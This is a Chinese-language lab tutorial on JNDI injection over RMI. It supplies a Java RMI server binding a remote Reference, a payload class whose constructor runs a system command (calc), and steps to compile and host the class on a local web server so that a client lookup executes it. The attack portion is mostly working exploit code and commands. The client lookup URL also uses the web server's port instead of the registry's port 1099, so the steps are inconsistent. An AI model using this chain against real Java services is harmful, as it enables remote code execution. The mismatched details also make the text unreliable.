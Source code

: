 java

```java
//server.java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8081/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

恶意代码（test.class），将其编译好放到可访问的http服务器（这里实验就放在了本地，用python3启一个web服务即可）

注意，这里不要弄成main方法了,应该构造一个显示的构造函数来放置恶意代码才会执行

并且这个恶意类不要加包名,而且不要和服务端还有客户端放在同一个目录,否则在启动客户端的时候会直接从当前目录下寻找到这个class文件,不启动web服务也能成功。



java

```java
//test.java
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

接下来编译出class文件,放在本地web目录即可(**这里注意，如果使用上述python命令启动的web服务，那么你在哪个目录下打开cmd窗口启动的服务，你的web目录就在哪个目录**)



java

```java
编译:javac test.java
部署在web服务上：python3 -m http.server 8081 #端口根据前面服务端url的端口
```

当客户端通过InitialContext().lookup("rmi://127.0.0.1:8081/obj")获取远程对象时，会执行我们的恶意代码

